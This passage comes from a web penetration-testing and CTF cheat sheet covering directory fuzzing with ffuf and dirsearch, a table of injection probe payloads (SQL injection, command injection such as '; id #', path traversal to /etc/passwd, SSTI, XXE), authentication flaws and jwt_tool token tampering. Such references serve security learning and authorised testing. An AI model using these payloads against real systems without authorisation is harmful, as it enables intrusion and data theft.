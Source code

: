     ```bash
    gowitness file -f alive.txt
    ```

#### 🔹 3. Directory & Endpoint Discovery

```bash
ffuf -u https://target.com/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -mc 200,204,301,302,307,403
```

```bash
dirsearch -u https://target.com -e php,aspx,js,txt
```

🧠 _Pro tip:_ Focus on hidden admin panels, backup files, and APIs — that’s where CTF flags and bounties hide.

***

### II. 💉 Injection Vulnerabilities

| Vulnerability                 | Example Payload                        | Notes                               |
| ----------------------------- | -------------------------------------- | ----------------------------------- |
| **SQL Injection**             | `' OR 1=1--`                           | Test login forms, parameters        |
| **Blind SQLi**                | `1' AND SLEEP(5)--`                    | Time-based testing                  |
| **Command Injection**         | `; id #` or `&& whoami`                | Test upload, ping, diagnostic pages |
| **File Inclusion**            | `../../../../etc/passwd`               | `LFI`, `RFI`, `php://filter` tricks |
| **Template Injection (SSTI)** | `{{7*7}}`, `${{7*7}}`                  | Jinja2, Twig, or Java frameworks    |
| **XXE Injection**             | Custom XML payloads                    | Extract `/etc/passwd`, SSRF via XML |
| **Deserialization**           | `pickle.loads()` / `ObjectInputStream` | Identify serialized input fields    |

🧠 Always inspect request parameters, headers, and hidden form fields.

***

### III. 🔐 Authentication & Access Control

#### 🔹 Common Flaws

* Default creds → `/admin:admin`
* Weak tokens / predictable session IDs
* Missing logout or session expiry
* JWT manipulation (`none` alg / base64 tampering)
* Password reset token reuse

#### 🔹 Testing

```bash
jwt_tool token.jwt -d
jwt_tool token.jwt -S hs256 -p secret
```
